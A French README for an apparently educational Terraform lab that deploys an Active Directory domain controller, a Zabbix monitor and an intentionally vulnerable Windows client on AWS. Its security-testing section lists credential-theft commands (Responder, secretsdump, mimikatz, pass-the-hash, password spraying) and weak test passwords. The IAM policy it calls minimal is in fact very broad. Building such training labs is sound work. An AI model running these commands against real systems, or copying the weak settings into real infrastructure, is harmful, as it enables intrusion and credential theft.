

# 🏢 Domain Controller Infrastructure as Code (IAC)

**Infrastructure d'Active Directory avec monitoring Zabbix et client Windows pour tests de sécurité**

[](https://aws.amazon.com/free/)
[](https://terraform.io)
[](https://www.microsoft.com/windows-server)
[](https://ubuntu.com)

## 📋 Table des matières

- [Vue d'ensemble](#-vue-densemble)
- [Architecture](#-architecture)
- [Composants](#-composants)
- [Prérequis](#-prérequis)
- [Installation](#-installation)
- [Vérification du déploiement](#-vérification-du-déploiement)
- [Tests de sécurité](#-tests-de-sécurité)
- [Monitoring avec Zabbix](#-monitoring-avec-zabbix)
- [Troubleshooting](#-troubleshooting)
- [Sécurité](#-sécurité)

---

## 🎯 Vue d'ensemble

Cette infrastructure déploie automatiquement sur AWS :

1. **🏢 Contrôleur de domaine Active Directory** (Windows Server 2022)
2. **📊 Serveur de monitoring Zabbix** (Ubuntu 22.04)  
3. **💻 Client Windows joint au domaine** (Windows Server 2022)

**🎓 Objectif pédagogique :** Environnement sécurisé pour apprendre les tests de pénétration AD, avec monitoring en temps réel des attaques.

**💰 Coût :** ~0.00€/mois (utilise exclusivement le Free Tier AWS)

---

## 🏗️ Architecture



### 🔧 Détails de l'architecture

| Composant | Type | Rôle | IP Privée | Ports exposés |
|-----------|------|------|-----------|---------------|
| **Domain Controller** | EC2 t2.micro | AD DS, DNS, DHCP | `10.0.1.10` | 3389, 53, 389, 636 |
| **Zabbix Server** | EC2 t2.micro | Monitoring | `10.0.1.20` | 80, 443, 22, 10051 |
| **Windows Client** | EC2 t2.micro | Cible de test | `10.0.1.30` | 3389, 445, 139, 137-138 |

---

## 🧩 Composants

### 🏢 **Domain Controller (DC)**
- **OS :** Windows Server 2022
- **Services :**
  - Active Directory Domain Services (AD DS)
  - DNS Server avec zones directe/inverse
  - DHCP Server (optionnel)
- **Domaine :** `school.local`
- **Configuration DNS :**
  - Zone directe : `school.local`
  - Zone inverse : `10.0.0.0/16`
  - Redirecteurs : `8.8.8.8`, `1.1.1.1`

### 📊 **Serveur Zabbix**
- **OS :** Ubuntu 22.04 LTS
- **Services :**
  - Zabbix Server 6.4
  - MySQL 8.0 (base de données)
  - Apache2 (interface web)
- **Monitoring :**
  - Agents Zabbix sur tous les clients
  - Métriques système et sécurité
  - Alertes en temps réel

### 💻 **Client Windows**
- **OS :** Windows Server 2022
- **Configuration :**
  - Joint au domaine `school.local`
  - Agent Zabbix installé
  - **Configuration vulnérable** pour tests :
    - LLMNR activé
    - NetBIOS over TCP activé
    - SMBv1 activé
    - Comptes avec mots de passe faibles

---

## 🔧 Prérequis

### 💻 **Système local**
- Terraform >= 1.0
- AWS CLI >= 2.0
- Make (pour les raccourcis)
- Git

### ☁️ **AWS**
- Compte AWS avec Free Tier
- Clés d'accès (Access Key + Secret Key)
- Région `us-east-1` recommandée

### 🔑 **Permissions AWS minimales**
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "ec2:*",
                "vpc:*",
                "iam:*"
            ],
            "Resource": "*"
        }
    ]
}
```

---

## 🚀 Installation

### **1. Cloner le projet**
```bash
git clone <repo-url>
cd domain-controller-iac
```

### **2. Configurer les clés AWS**
Éditer le fichier `.config/variables/terraform.tfvars` :
```hcl
# AWS Credentials
aws_access_key = "VOTRE_ACCESS_KEY"
aws_secret_key = "VOTRE_SECRET_KEY"
```

### **3. Personnaliser la configuration (optionnel)**
```hcl
# Domain Configuration
domain_name = "school.local"
admin_password = "VotreMotDePasse2024!"

# Client Configuration
client_name = "client1"
enable_security_testing = true

# Zabbix Configuration
enable_zabbix = true
```

### **4. Déployer l'infrastructure**
```bash
# Initialiser Terraform
make init

# Vérifier le plan de déploiement
make plan

# Déployer (~ 15-20 minutes)
make deploy
```

### **5. Récupérer les informations de connexion**
```bash
# Voir toutes les outputs
terraform output

# Informations spécifiques
terraform output summary
terraform output security_testing_info
```

---

## ✅ Vérification du déploiement

### **📋 Checklist de vérification**

#### **1. ☁️ Infrastructure AWS**
```bash
# Vérifier que les instances sont lancées
aws ec2 describe-instances --filters "Name=tag:Project,Values=domain-controller" --query 'Reservations[].Instances[].{Name:Tags[?Key==`Name`].Value|[0],State:State.Name,IP:PublicIpAddress}'
```

**✅ Résultat attendu :**
```
[
    {
        "Name": "domain-controller-dc",
        "State": "running",
        "IP": "x.x.x.x"
    },
    {
        "Name": "domain-controller-zabbix",
        "State": "running", 
        "IP": "x.x.x.x"
    },
    {
        "Name": "domain-controller-client1",
        "State": "running",
        "IP": "x.x.x.x"
    }
]
```

#### **2. 🏢 Domain Controller**

**Connexion RDP :**
```bash
# Récupérer l'IP publique
terraform output domain_controller_public_ip
```

**Via RDP :**
- **Adresse :** `<IP_PUBLIQUE>:3389`
- **Utilisateur :** `SCHOOL\Administrator`
- **Mot de passe :** (valeur de `admin_password`)

**Vérifications sur le DC :**
```powershell
# 1. Vérifier le domaine
Get-ADDomain

# 2. Vérifier DNS
nslookup school.local
nslookup client1.school.local

# 3. Vérifier les services
Get-Service ADWS,DNS,Netlogon | Select Name,Status

# 4. Vérifier les zones DNS
Get-DnsServerZone
```

**✅ Résultats attendus :**
- Domaine `school.local` configuré
- DNS fonctionne pour zone directe/inverse
- Services AD en cours d'exécution

#### **3. 💻 Client Windows**

**Connexion RDP :**
```bash
# Récupérer l'IP du client
terraform output windows_client_public_ip
```

**Via RDP :**
- **Adresse :** `<CLIENT_IP>:3389`
- **Utilisateur :** `SCHOOL\Administrator` OU `Administrator`
- **Mot de passe :** (valeur de `admin_password` ou `client_admin_password`)

**Vérifications sur le client :**
```powershell
# 1. Vérifier le domaine
whoami /fqdn
# Résultat attendu: client1.school.local

# 2. Vérifier la résolution DNS
nslookup dc1.school.local
nslookup school.local

# 3. Vérifier l'agent Zabbix
Get-Service "Zabbix Agent" | Select Name,Status,StartType
# Résultat attendu: Status=Running, StartType=Automatic

# 4. Vérifier les utilisateurs de test
Get-LocalUser | Where {$_.Name -in @("testuser","serviceaccount","backup_admin")}

# 5. Tester l'authentification domaine
nltest /dsgetdc:school.local
```

**✅ Résultats attendus :**
- Client joint au domaine `school.local`
- DNS pointe vers le DC
- Agent Zabbix en cours d'exécution
- Utilisateurs de test créés

#### **4. 📊 Serveur Zabbix**

**Interface Web :**
```bash
# Récupérer l'URL Zabbix
terraform output zabbix_web_url
```

**Connexion Web :**
- **URL :** `http://<ZABBIX_IP>/zabbix`
- **Utilisateur :** `Admin`
- **Mot de passe :** `zabbix` (à changer immédiatement)

**Vérifications dans Zabbix :**
1. **Hosts découverts :**
   - `dc1.school.local`
   - `client1.school.local`

2. **Agents connectés :**
   - Configuration → Hosts
   - Vérifier statut "Available" (icône verte)

3. **Métriques collectées :**
   - Monitoring → Latest data
   - Vérifier données CPU, RAM, réseau

**SSH (pour diagnostic) :**
```bash
# Se connecter au serveur Zabbix
ssh -i .config/keys/domain-controller-key.pem ubuntu@<ZABBIX_IP>

# Vérifier les services
sudo systemctl status zabbix-server mysql apache2

# Vérifier les logs
sudo tail -f /var/log/zabbix/zabbix_server.log
```

### **📊 Tableau de bord de vérification**

| Composant | Service | Port | Test | Status |
|-----------|---------|------|------|---------|
| **DC** | RDP | 3389 | `telnet <DC_IP> 3389` | ✅ Connecté |
| **DC** | DNS | 53 | `nslookup school.local <DC_IP>` | ✅ Résout |
| **DC** | AD | 389 | `nltest /dsgetdc:school.local` | ✅ Accessible |
| **Zabbix** | Web | 80 | `curl http://<ZAB_IP>/zabbix` | ✅ Page web |
| **Zabbix** | Agent | 10051 | Agent connecté | ✅ Connecté |
| **Client** | RDP | 3389 | `telnet <CLIENT_IP> 3389` | ✅ Connecté |
| **Client** | Domaine | - | `whoami /fqdn` | ✅ Joint |
| **Client** | Zabbix | 10050 | Service en cours | ✅ Running |

---

## 🛡️ Tests de sécurité

### **🎯 Scénarios de test disponibles**

#### **1. 📡 Attaques Responder (LLMNR/NetBIOS)**

**Sur une machine d'attaque (Kali Linux) :**
```bash
# Installation Responder
sudo apt update && sudo apt install responder

# Lancement de l'attaque
sudo responder -I eth0 -wrf

# Sur le client Windows, déclencher une requête
# Par exemple: \\serveur-inexistant\partage
```

**✅ Résultat attendu :**
- Capture des hashs NTLMv2
- Alertes dans Zabbix

#### **2. 🔓 Extraction de hashs**

**Avec impacket :**
```bash
# Installation
pip3 install impacket

# Extraction via SMB
secretsdump.py school.local/testuser:Password123@<CLIENT_IP>

# Ou depuis un utilisateur domaine
secretsdump.py school.local/Administrator:<PASSWORD>@<CLIENT_IP>
```

**Avec mimikatz (sur le client) :**
```powershell
# Télécharger mimikatz
# Exécuter en tant qu'administrateur
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

#### **3. 🔄 Pass-the-Hash**

```bash
# Utiliser un hash récupéré
pth-winexe -U school.local/testuser%<HASH> //<CLIENT_IP> cmd

# Ou avec impacket
psexec.py -hashes <LM>:<NT> school.local/testuser@<CLIENT_IP>
```

#### **4. 💥 Attaques par dictionnaire**

```bash
# Credential spraying
crackmapexec smb <CLIENT_IP> -u users.txt -p passwords.txt

# Ou avec hydra
hydra -L users.txt -P passwords.txt <CLIENT_IP> smb
```

### **👤 Comptes de test disponibles**

| Utilisateur | Mot de passe | Type | Description |
|-------------|--------------|------|-------------|
| `Administrator` | `SchoolProject2024!` | Domaine | Admin domaine |
| `testuser` | `Password123` | Local | Utilisateur test |
| `serviceaccount` | `Service123` | Local | Compte service |
| `backup_admin` | `backup123` | Local | Admin backup |

---

## 📊 Monitoring avec Zabbix

### **🔍 Métriques surveillées**

#### **Métriques système :**
- CPU, RAM, disque
- Processus en cours
- Connexions réseau
- Services Windows

#### **Métriques de sécurité :**
- Échecs d'authentification
- Connexions RDP
- Processus suspects (mimikatz, psexec)
- Trafic réseau anormal

### **🚨 Alertes configurées**

1. **Connexions suspectes :**
   - Multiples échecs RDP
   - Connexions en dehors des heures

2. **Processus malveillants :**
   - Détection mimikatz
   - Outils de pentest

3. **Anomalies réseau :**
   - Trafic SMB inhabituel
   - Scans de ports

### **📈 Tableaux de bord**

Accéder aux tableaux via : `http://<ZABBIX_IP>/zabbix`

- **Overview :** Vue d'ensemble de l'infrastructure
- **Security :** Événements de sécurité
- **Network :** Trafic réseau
- **Windows :** Métriques spécifiques Windows

---

## 🔧 Troubleshooting

### **❌ Problèmes courants**

#### **1. Client ne rejoint pas le domaine**

**Symptômes :**
- Erreur lors du domain join
- DNS ne résout pas le domaine

**Solutions :**
```powershell
# Sur le client
# 1. Vérifier DNS
nslookup school.local
nslookup dc1.school.local

# 2. Reconfigurer DNS si nécessaire
$adapter = Get-NetAdapter | Where {$_.Status -eq "Up"}
Set-DnsClientServerAddress -InterfaceIndex $adapter.InterfaceIndex -ServerAddresses "10.0.1.10"

# 3. Tester la connectivité AD
nltest /dsgetdc:school.local

# 4. Rejoindre le domaine manuellement
Add-Computer -DomainName "school.local" -Credential (Get-Credential) -Restart
```

#### **2. Agent Zabbix non connecté**

**Symptômes :**
- Host apparaît rouge dans Zabbix
- Pas de données collectées

**Solutions :**
```powershell
# Sur le client Windows
# 1. Vérifier le service
Get-Service "Zabbix Agent"

# 2. Redémarrer si nécessaire
Restart-Service "Zabbix Agent"

# 3. Vérifier la config
Get-Content "C:\Program Files\Zabbix Agent\zabbix_agentd.conf" | Select-String "Server="

# 4. Tester la connectivité
Test-NetConnection -ComputerName <ZABBIX_IP> -Port 10051
```

```bash
# Sur le serveur Zabbix
# Vérifier les logs
sudo tail -f /var/log/zabbix/zabbix_server.log

# Vérifier la config d'host
mysql -u zabbix -p zabbix -e "SELECT host,status FROM hosts WHERE host LIKE '%client%';"
```

#### **3. Instance ne démarre pas**

**Solutions :**
```bash
# Vérifier le statut AWS
aws ec2 describe-instances --instance-ids <INSTANCE_ID>

# Voir les logs de démarrage
aws ec2 get-console-output --instance-id <INSTANCE_ID>

# Redémarrer une instance
aws ec2 reboot-instances --instance-ids <INSTANCE_ID>
```

### **📋 Logs utiles**

| Composant | Localisation des logs |
|-----------|----------------------|
| **DC** | `C:\Windows\debug\netlogon.log` |
| **Client** | `C:\client-setup.log` |
| **Zabbix** | `/var/log/zabbix/zabbix_server.log` |
| **MySQL** | `/var/log/mysql/error.log` |
| **Apache** | `/var/log/apache2/error.log` |

---

## 🔒 Sécurité

### **⚠️ Configurations vulnérables (intentionnelles)**

Cette infrastructure contient des vulnérabilités **intentionnelles** pour l'apprentissage :

1. **Protocoles faibles :**
   - LLMNR activé
   - NetBIOS over TCP
   - SMBv1

2. **Mots de passe faibles :**
   - Comptes de test avec mots de passe simples
   - Pas de politique de complexité

3. **Audit désactivé :**
   - Logging minimal
   - Pas de monitoring avancé (hors Zabbix)

### **🛡️ Recommandations de sécurité**

#### **Pour la production :**

1. **Désactiver les protocoles faibles :**
```powershell
# Désactiver LLMNR
New-Item -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\DNSClient" -Force
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\DNSClient" -Name "EnableMulticast" -Value 0

# Désactiver NetBIOS
# Via DHCP ou configuration manuelle

# Désactiver SMBv1
Disable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol
```

2. **Politique de mots de passe :**
```powershell
# Configurer la politique de domaine
Set-ADDefaultDomainPasswordPolicy -ComplexityEnabled $true -MinPasswordLength 12
```

3. **Audit avancé :**
```powershell
# Activer l'audit détaillé
auditpol /set /category:"Account Logon" /success:enable /failure:enable
auditpol /set /category:"Logon/Logoff" /success:enable /failure:enable
```

### **🚨 Avertissements**

- ❌ **Ne pas utiliser en production**
- ❌ **Configurations intentionnellement vulnérables**
- ✅ **Uniquement pour formation et tests autorisés**
- ✅ **Isoler du réseau de production**

---

## 🤝 Contribution

Pour contribuer au projet :

1. Fork le repository
2. Créer une branche feature
3. Commiter les changements
4. Créer une Pull Request

---

## 📄 Licence

Ce projet est sous licence MIT - voir le fichier [LICENSE](LICENSE) pour les détails.

---

## 📞 Support

Pour questions ou problèmes :
- Créer une issue GitHub
- Consulter la documentation Terraform
- Vérifier les logs AWS CloudWatch

---

**⚠️ DISCLAIMER : Cette infrastructure est conçue uniquement à des fins éducatives. N'utilisez jamais ces configurations en production.** 